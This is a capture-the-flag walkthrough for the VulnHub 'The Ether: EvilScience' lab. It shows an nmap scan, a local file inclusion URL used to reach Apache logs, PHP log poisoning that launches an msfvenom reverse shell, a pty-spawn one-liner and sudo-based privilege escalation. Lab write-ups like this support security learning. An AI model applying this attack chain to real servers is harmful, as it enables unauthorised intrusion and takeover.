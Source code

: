 

Recon part

host scan:

	nmap -sV -A -Pn 192.168.187.128 -p-

	Starting Nmap 7.40 ( https://nmap.org ) at 2018-01-17 12:51 EST
	Nmap scan report for 192.168.187.128
	Host is up (0.0010s latency).
	Not shown: 65533 closed ports
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 12:09:bc:b1:5c:c9:bd:c3:ca:0f:b1:d5:c3:7d:98:1e (RSA)
	|_  256 de:77:4d:81:a0:93:da:00:53:3d:4a:30:bd:7e:35:7d (ECDSA)
	80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	|_http-title: The Ether
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 8.46 seconds



go to web server and find LFI for access apache logs : http://192.168.187.128/?file=../log/access.log#top

As LFI works over a php engine it is a big change that php code injected inside log file will be processed by php:

so:
1. intercept any request to web server
2. inject php code inside


![alt text](https://github.com/s1l3xz/some/blob/master/vuln_hub/The Ether: EvilScience/inject.jpg)


where "shell" file is generated reverse shell ( generated by msfvenom )




than refresh http://192.168.187.128/?file=../log/access.log#top in browser and php code executed


privilege escalation

spawn to tty shell : python -c 'import pty; pty.spawn("/bin/sh")'    ( see all options https://netsec.ws/?p=337)
see what files can be executed under root user from www-data : sudo -l

![alt text](https://github.com/s1l3xz/some/blob/master/vuln_hub/The Ether: EvilScience/priv1.png)


got root command execution by CLI injection ( thank Julia team member , I really tried over ssh username injection :(   ) : 


got flag in /root dir inside picture in base64 encoding:

![alt text](https://github.com/s1l3xz/some/blob/master/vuln_hub/The\ Ether:\ EvilScience/flag1.png)


![alt text](https://github.com/s1l3xz/some/blob/master/vuln_hub/The Ether: EvilScience/flag2.png)

